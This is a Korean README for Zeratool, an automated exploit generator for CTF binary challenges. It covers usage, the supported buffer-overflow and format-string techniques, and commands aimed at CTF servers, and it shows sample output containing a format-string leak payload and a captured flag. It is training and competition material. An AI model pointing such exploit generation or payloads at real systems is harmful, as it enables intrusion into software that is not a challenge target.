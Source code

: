 # Zeratool
CTF 포너블 문제를 위한 자동 익스플로잇 생성기와 원격 FLAG 캡쳐 도구

## Introduction
이 도구는 angr를 통하여 printf 후킹과 제약되지 않은 경로를 찾아 바이너리를 분석하고, pwntools와 스크립트 트릭을 통해 원격 코드 실행을 편하게 해준다. 마지막으로 페이로드가 로컬에서 테스트된 후 리모트 CTF서버에 제출되어 플래그를 얻을 수 있다.


[![asciicast](https://asciinema.org/a/188002.png)](https://asciinema.org/a/188002)

## Installing
Zeratool은 Ubuntu 16.04에서 테스트되었다고하며, 설치 스크립트는 Ubuntu 12.04에서 Ubuntu 18.04까지 지원됩니다.
```
./install.sh
```

## Usage
Zeratool은 바이너리를 인자로 받아들이고 선택적으로 링크된 libc 라이브러리 및 CTF 서버 연결 정보를 인자로 추가할 수 있는 python 스크립트입니다.
```
[chris:~/Zeratool] [angr] python zeratool.py -h
usage: zeratool.py [-h] [-l LIBC] [-u URL] [-p PORT] [-v] file

positional arguments:
  file                  File to analyze

optional arguments:
  -h, --help            show this help message and exit
  -l LIBC, --libc LIBC  libc to use
  -u URL, --url URL     Remote URL to pwn
  -p PORT, --port PORT  Remote port to pwn
  -v, --verbose         Verbose mode
```

## Exploit Types
Zeratool은 Buffer Overflow 및 Format String 버그에 대하여 지원합니다.

* Buffer Overflow
    * Point program counter to win function
    * Point program counter to shellcode
    * Point program counter to rop chain
        * ROP chains need a libc base address
        * one-gadget and ropper are used rop chain building
* Format String
    * Point GOT entry to win function
    * Point GOT entry to shellcode

## Examples
challenges 폴더에 있는 바이너리 혹은 samples.sh를 통해서 어떻게 동작하는지 테스트해 볼 수 있습니다.
```
#!/bin/bash
#Buffer Overflows with win functions
python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
python zeratool.py challenges/bof3 -u ctf.hackucf.org -p 9002
python zeratool.py challenges/bof2 -u ctf.hackucf.org -p 9001
python zeratool.py challenges/bof1 -u ctf.hackucf.org -p 9000

#Down for the summer
#python zeratool.py challenges/easy_format -u tctf.competitivecyber.club -p 7801
#python zeratool.py challenges/medium_format -u tctf.competitivecyber.club -p 7802

#Format string leak
python zeratool.py challenges/easy_format
#Format string point to win function
python zeratool.py challenges/medium_format
#Format string point to shellcode
python zeratool.py challenges/hard_format #This one sometimes needs to be run twice

#Buffer overflow point to shellcode
python zeratool.py challenges/demo_bin
```

## Example(easy_format)
```
(zeratool) root@5ba1527e39bb:/pwd/Downloads/Zeratool-master# python zeratool.py challenges/easy_format
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Checking for format string pwn type...
[+] Found symbolic buffer at position 0 of length 49
[+] Vulnerable path found %x_%
[+] Triggerable with STDIN : %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x

[+] Getting binary protections
[+] Checking for flag leak
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[+] Flag found:
[+] Returned eyU`Zflag{y0u_g0t_1t}
%x_%8x_%17$08x_%18$08x_%19$08x_%20$08x_%21$08x_%22$08x_%23$08x_%8x_%41$08x_%42$08x_%43$08x_%44$08x_%45$08x_%46$08x_%47$08x
```

## Reference
[Zeratool](https://github.com/ChrisTheCoolHut/Zeratool)
